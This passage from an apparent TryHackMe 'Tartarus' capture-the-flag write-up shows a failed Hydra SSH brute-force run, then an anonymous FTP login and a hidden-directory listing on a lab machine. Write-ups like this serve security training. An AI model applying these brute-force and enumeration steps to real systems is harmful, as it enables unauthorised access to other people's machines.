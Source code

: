 ```
[DATA] attacking ssh://10.10.75.241:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 1269 to do in 00:29h, 4 active
[STATUS] 34.67 tries/min, 104 tries in 00:03h, 1209 to do in 00:35h, 4 active
[STATUS] 32.29 tries/min, 226 tries in 00:07h, 1087 to do in 00:34h, 4 active
[STATUS] 31.00 tries/min, 372 tries in 00:12h, 941 to do in 00:31h, 4 active
[STATUS] 32.00 tries/min, 544 tries in 00:17h, 769 to do in 00:25h, 4 active
[STATUS] 31.36 tries/min, 690 tries in 00:22h, 623 to do in 00:20h, 4 active
[STATUS] 31.04 tries/min, 838 tries in 00:27h, 475 to do in 00:16h, 4 active
[STATUS] 31.03 tries/min, 993 tries in 00:32h, 320 to do in 00:11h, 4 active
[STATUS] 31.08 tries/min, 1150 tries in 00:37h, 163 to do in 00:06h, 4 active
[STATUS] 30.86 tries/min, 1296 tries in 00:42h, 17 to do in 00:01h, 4 active
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-15 08:46:35
```
Again nothing. I even tried, as we have a limited number of usernames and passwords, to reverse the lists and check that way. Still nothing.

## ftp
Let's look at the first port and see where it takes us. First logon with anonymous.
```
~/CTF/tryhackme/tartarus$ ftp 10.10.218.247
Connected to 10.10.218.247.
220 (vsFTPd 3.0.3)
Name (10.10.218.247:): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> get test.txt 
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for test.txt (17 bytes).
226 Transfer complete.
17 bytes received in 0.01 secs (2.2335 kB/s)
```
So we have a file, lets see if there is anything else in the other directories.
```
ftp> cd .
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls
```